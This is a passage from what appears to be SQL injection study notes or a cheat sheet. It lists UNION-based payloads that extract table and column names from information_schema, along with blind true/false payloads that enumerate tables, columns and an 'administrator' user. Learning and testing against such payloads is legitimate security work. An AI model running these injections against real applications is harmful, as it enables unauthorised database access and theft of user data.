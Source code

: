 2. **Determine which of those columns return String data:**

```
' union select 'Test', null--
```


3. **Extract table names from the database:**

```
' union select table_name, null from information_schema.tables--
```


4. **Extract column names from those tables:**

```
' union select null,column_name from information_schema.columns where table_name = 'users'--
```


<br>

#### SQLi Blind Conditional Responses Examples

* Identify if the below payloads result in a notable difference in the responses.  The key here is to know how the application responds to a true statement (1=1) vs a false statement (1=2):

    * ' and '1'='1

    * ' and '1'='2

    * ' and 1=1--

    * ' and 1=2--


* Once we can identify how the application responds to a True vs False query, we can use the below payloads to extract useful information.  Depending on the response we receive, we know that the query injected is either valid or invalid.

<br>

* **Payloads to enumerate table names.**  Even though UNION attacks won't do us any good here in Blind SQLi, this technique can still be used to enumerate table names:

```
'and (select 'a' from {tableName} limit 1)='a
```
```
'union select 'a' from {tableName} where 1=1--
```


* **Payloads to enumerate column names.**  The 2nd payload requires to know at least 1 username on the database:

```
'union select {columnName} from users where 1=1--
```
```
'union select 'a' from users where {columnName}='administrator'--
```
